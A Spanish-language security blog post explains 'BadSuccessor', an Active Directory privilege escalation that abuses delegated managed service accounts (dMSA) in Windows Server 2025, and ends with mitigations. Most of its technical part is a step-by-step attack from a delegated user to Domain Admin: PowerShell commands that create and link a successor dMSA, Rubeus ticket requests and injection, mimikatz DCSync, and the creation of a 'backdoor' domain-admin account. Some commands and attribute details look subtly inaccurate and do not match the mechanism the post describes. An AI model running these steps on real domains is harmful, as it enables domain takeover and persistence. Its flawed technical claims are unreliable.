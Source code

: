 ```yaml
---
title: BadSuccessor - Escalada de privilegios abusando de dMSA en Active Directory
date: 2025-05-22 09:00:00 
categories: [CIBERATAQUES]
tags: [ciberseguridad, ciberataque, vulnerabilidad]
description: Yuval Gordon, investigador de Akamai, ha descubierto una técnica avanzada de escalada de privilegios en entornos Windows Server 2025 conocida como BadSuccessor.
image: /assets/136/preview1.png
---
```


Yuval Gordon, investigador de Akamai, ha descubierto una técnica avanzada de escalada de privilegios en entornos Windows Server 2025 conocida como BadSuccessor. Esta técnica depende de una nueva funcionalidad legítima: las Cuentas de Servicio Administradas Delegadas (dMSA).

###  ¿Qué son las dMSA?

Las Delegated Managed Service Accounts (dMSA) fueron introducidas en Windows Server 2025 como una mejora sobre las Managed Service Accounts (MSA) y Group Managed Service Accounts (gMSA). Su objetivo es permitir una gestión centralizada, segura y delegada de cuentas de servicio, incluyendo:

- Rotación automática de contraseñas.
- Restricción por máquina (sólo equipos autorizados pueden usarla).
- Delegación de control para facilitar la administración sin comprometer el principio de privilegios mínimos.

Sin embargo, es precisamente esta capacidad de delegación la que abre la puerta a BadSuccessor.

###  La idea detrás de BadSuccessor

BadSuccessor se basa en el abuso de la funcionalidad que permite delegar la gestión de una dMSA. Mediante esta característica, es posible que una entidad (usuario o grupo) administre otra cuenta de servicio sin necesidad de privilegios directos de dominio.

El problema aparece cuando:

- Una cuenta de bajo privilegio es delegada para gestionar una dMSA privilegiada (por ejemplo, usada por un servicio con permisos elevados).
- Esta cuenta crea una nueva dMSA "sucesora" que se declara como reemplazo de la dMSA original.
- Active Directory acepta al sucesor como legítimo, permitiéndole heredar privilegios y usos de la cuenta original.

Este flujo puede usarse para escalar privilegios dentro del dominio sin explotar vulnerabilidades, sino simplemente configuraciones laxas de delegación.

##  Escenario de ataque

- El atacante crea una nueva cuenta dMSA, por ejemplo: attacker$.
- El atacante modifica los atributos del objeto de AD de la dMSA objetivo (por ejemplo, svc_SQLProd$) para vincular la nueva dMSA (attacker$) como su sucesora.
- El atacante solicita un TGT (Ticket Granting Ticket) a través de Kerberos usando su nueva cuenta attacker$.
- El DC emite un TGT válido para attacker$, que incluye acceso y permisos equivalentes a los de la cuenta original (target user, como svc_ejemplo$). Como resultado, el atacante actúa con privilegios heredados. Si la dMSA original era miembro de grupos como Domain Admins, ahora attacker$ tiene acceso al dominio completo.

<img src="/assets/136/136-1.jpg"  width="500" height="500">

###  Requisitos del ataque

- Control parcial o total de una cuenta con delegación sobre una dMSA privilegiada.
- Acceso a un entorno de dominio con controladores de dominio actualizados a Windows Server 2025.
- Conocimiento de las estructuras de delegación en Active Directory.

###  Ejemplo - Escenario de ataque completo: De usuario delegado a Domain Admin

**Infraestructura del laboratorio**
- Dominio: lab.local
- DC: DC01.lab.local (Windows Server 2025)
- Cuenta dMSA privilegiada: svc_SQLProd$ (usada por un SQL Server miembro de Domain Admins)
- Usuario con delegación: john.smith (puede gestionar la cuenta svc_SQLProd$)

**Objetivo**

Elevar privilegios desde john.smith hasta obtener un TGT como svc_SQLProd$, lo cual permite realizar acciones como un Domain Admin.

**1. Verificar delegación sobre la dMSA**

    Get-ACL "AD:\CN=svc_SQLProd$,CN=Managed Service Accounts,DC=lab,DC=local" | Format-List

Verifica que john.smith tenga permisos como WriteProperty, GenericAll, o similares.

**2. Crear una dMSA sucesora**

    New-ADServiceAccount -Name "svc_Malicious" -RestrictToOutboundAuthenticationOnly:$true
    
    # Delegar la gestión (herencia/sucesión)
    Set-ADObject -Identity "CN=svc_SQLProd$,CN=Managed Service Accounts,DC=lab,DC=local" \
      -Add @{"msDS-ManagedBy"="CN=svc_Malicious,CN=Managed Service Accounts,DC=lab,DC=local"}

Este paso vincula la nueva dMSA como sucesora, heredando la funcionalidad de la original. 

**3. Instalar la dMSA en una máquina autorizada**

    Install-ADServiceAccount -Identity svc_Malicious
    Test-ADServiceAccount -Identity svc_Malicious

**4. Obtener el secreto gestionado (hash o contraseña)**

Instala el módulo RSAT si es necesario:

    Import-Module ActiveDirectory
    Get-ADServiceAccount svc_Malicious -Properties msDS-ManagedPassword

Alternativamente, usa PowerView o DSInternals para extraerlo:

    Get-ADComputerServiceAccountKey -AccountName svc_Malicious

**5. Solicitar un TGT con Rubeus**

    Rubeus.exe asktgt /user:svc_Malicious$ /rc4:<NTLM_HASH> /domain:lab.local

Y cargarlo en la sesión actual:

    Rubeus.exe ptt /ticket:<base64_TGT>

**6. Acciones como Domain Admin**
   
Si svc_SQLProd$ es miembro de Domain Admins, ahora el atacante puede:

    # Enumerar controladores
    nltest /dclist:lab.local
    
    # DCSync
    mimikatz "lsadump::dcsync /user:Administrator"
    
    # Agregar usuario administrador
    net user backdoor P@ssw0rd! /add
    dsmod group "CN=Domain Admins,CN=Users,DC=lab,DC=local" -addmbr "CN=backdoor,CN=Users,DC=lab,DC=local"

### Mitigaciones recomendadas

1. **Auditar la delegación de control** en cuentas de servicio: ninguna cuenta de bajo privilegio debería tener permisos sobre cuentas usadas por servicios críticos.

2. **Revisar el uso de sucesores** en configuraciones de dMSA: documentar qué cuentas pueden sustituir a otras.

3. **Limitar la creación de nuevas dMSA** a roles administrativos específicos y supervisados.

4. **Supervisar cambios en objetos dMSA** mediante logging y SIEM.

### Conclusión

BadSuccessor es un excelente ejemplo de cómo una funcionalidad legítima puede transformarse en un vector de ataque si no se configura correctamente. La aparición de dMSA en Windows Server 2025 introduce ventajas significativas para la gestión de servicios, pero también requiere una revisión cuidadosa de las políticas de delegación. Este tipo de investigaciones demuestran que la seguridad no está sólo en los parches, sino en el diseño y la gobernanza del entorno.






